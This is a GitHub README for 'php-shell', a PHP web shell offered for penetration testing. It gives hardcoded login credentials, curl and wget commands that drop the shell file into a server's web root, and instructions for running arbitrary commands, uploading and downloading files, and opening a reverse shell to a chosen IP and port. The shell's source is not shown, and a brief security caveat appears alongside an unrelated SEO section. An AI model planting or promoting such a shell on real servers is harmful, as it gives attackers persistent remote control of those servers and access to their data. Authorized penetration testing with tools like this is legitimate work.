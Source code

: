 
# PHP SSH Shell - User Guide

The **php-shell** is a simple and user-friendly PHP web shell designed for penetration testing purposes. It allows users to execute shell commands on a server directly through a web interface, facilitating tasks such as command execution, file uploads, and downloads.


### Username
```bash
admin
```
### Password
```bash
R00t
```

## Key Features ⚙️

- **Command Execution**: Run shell commands directly from the web interface.
- **File Management**: Upload and download files to and from the server.
- **Session Management**: Utilize command history navigation with arrow keys.

## How to Use php-shell 📜

### Download and Deployment 💻

To deploy `php-shell`, use `curl` or `wget` to download the `PHP-SSH-Shell.php` file to your server's web directory:

```bash
curl https://raw.githubusercontent.com/RootShelll/PHP-SSH-Shell/refs/heads/main/PHP-SSH-Shell.php -o /var/www/html/PHP-SSH-Shell.php
```

or

```bash
wget https://raw.githubusercontent.com/RootShelll/PHP-SSH-Shell/refs/heads/main/PHP-SSH-Shell.php -O /var/www/html/PHP-SSH-Shell.php
```

After downloading, access the shell via your web browser:  
**http://yourserver.com/PHP-SSH-Shell.php**

### Command Interface ⌨️

#### Executing Commands 🖥️

Type your desired shell command and press Enter to execute.

#### Navigating Command History 🔄

Use the Up and Down arrow keys to scroll through previous commands.

#### Special Commands 🔧

- `exit`: Logs out of the shell session.
- `cd [directory]`: Changes the current directory.
- `cls`: Clears the command output on the screen.
- `rshell [IP] [PORT]`: Initiates a reverse shell to the specified IP and port.
- `upload`: Prompts for a file to upload to the current directory.
- `download [file]`: Downloads the specified file from the server.

### Security Considerations 🔒

Deploying **php-shell** poses significant security risks, as it grants extensive access to the server. It is imperative to use this tool exclusively in controlled environments, such as during authorized penetration testing, and ensure it is removed immediately after use to prevent unauthorized access.

### SEO Optimization 🔍

To ensure the php-shell page is optimized for search engines:

- **Meta Tags**: Include relevant meta tags in the `<head>` section.
- **Header Tags**: Use appropriate header tags (`<h1>`, `<h2>`, etc.) to structure your content.
- **Alt Text for Images**: Provide descriptive alt text for images to improve accessibility and SEO.

## Comprehensive Usage Guide 🛠️

For users unfamiliar with web shells, **php-shell** serves as a web-based interface that allows you to execute shell commands on a server directly from your browser. This can be particularly useful for system administrators and developers who need to manage servers without direct terminal access.

### Step-by-Step Instructions 📝

#### Setup 🏗️

1. Download the `PHP-SSH-Shell.php` file to your server's web directory using `curl` or `wget`.
2. Ensure the web server has the necessary permissions to execute PHP scripts.

#### Accessing the Shell 🌐

Open your web browser and navigate to:  
**http://yourserver.com/PHP-SSH-Shell.php**

You will be presented with a command input field where you can enter your shell commands.

#### Executing Commands 🖱️

Type any valid shell command into the input field and press Enter. The output of the command will be displayed on the screen.

#### Uploading Files 📤

Type `upload` and press Enter. A file selection dialog will appear. Choose the file you wish to upload. The selected file will be uploaded to the current directory on the server.

#### Downloading Files 📥

Type `download [filename]` (replace `[filename]` with the actual file name) and press Enter. The specified file will be downloaded to your local machine.

---

### Login Form Example 🔑

```html
<div class="login-form">
    <h2>Shell login password</h2>
    <input type="text" value="admin">
    <input value="R00t" required>
</div>
```


### License 📄

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
